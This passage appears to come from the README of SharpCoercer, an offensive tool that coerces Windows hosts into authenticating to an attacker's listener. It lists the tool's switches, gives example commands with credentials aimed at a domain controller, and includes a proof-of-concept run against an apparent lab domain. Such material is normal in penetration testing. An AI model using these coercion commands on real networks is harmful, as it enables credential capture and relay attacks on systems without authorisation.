 ### Optional Arguments

| Switch                           | Description                                                |                                      |
| -------------------------------- | ---------------------------------------------------------- | ------------------------------------ |
| `-a`, `-auth-type`               | Coercion transport smb or http coercion  (default: `smb`)  |  |
| `-sp`, `-smb-port` `<port>`      | SMB port (default: `445`).                                 |                                      |
| `-hp`, `-http-port` `<port>`     | HTTP port (default: `80`).                                 |                                      |
| `-d`, `-domain` `<domain>`       | Domain name for supplied credentials.                      |                                      |
| `-u`, `-username` `<user>`       | Username for RPC binding.                                  |                                      |
| `-p`, `-password` `<pass>`       | Password for RPC binding.                                  |                                      |
| `-np`, `-namedpipe-filter` `<n>` | Filter named pipes by substring.                           |                                      |
| `-r`, `-rpc-filter` `<n>`        | Filter RPC client classes by substring.                    |                                      |
| `-m`, `-method-filter` `<n>`     | Filter RPC methods by substring.                           |                                      |
| `-lr`, `-listrpcs`               | List all available RPC clients and exit.                   |                                      |
| `-lp`, `-listPipes`              | List all available named pipes and exit.                   |                                      |
| `-lf`, `-listfunctions`          | List all RPC methods (with optional `-r` filter) and exit. |                                      |
| `-c`, `-always-continue`         | Skip interactive prompts between calls.                    |                                      |
| `-e`, `-enumerate `              | Enumerate all available named pipes on the target and attempt to bind to each one. |              |

### Example

```powershell
# Coerce via SMB (default) using domain credentials
SharpCoercer.exe -t 192.168.1.10 -l 192.168.1.20 \
    -d CORP -u Administrator -p "P@ssw0rd"

# Coerce via HTTP listener on custom port
SharpCoercer.exe -t dc1.corp.local -l mylistener.example.com \
    -a http -hp 8080 -c

# Enumerate RPC methods for the MS-RPRN client
SharpCoercer.exe -lr -r RprnRpcClient -lf
```

---
## Poc of SMB Coercion
  ```powershell
  .\SharpCoercer.exe -t dc.hecker.local -u adam -p Temp123 -d hecker.local -l 192.168.163.129 -c
```

https://github.com/user-attachments/assets/90130a4b-49c2-4479-b26d-a17ab9d7bb1d
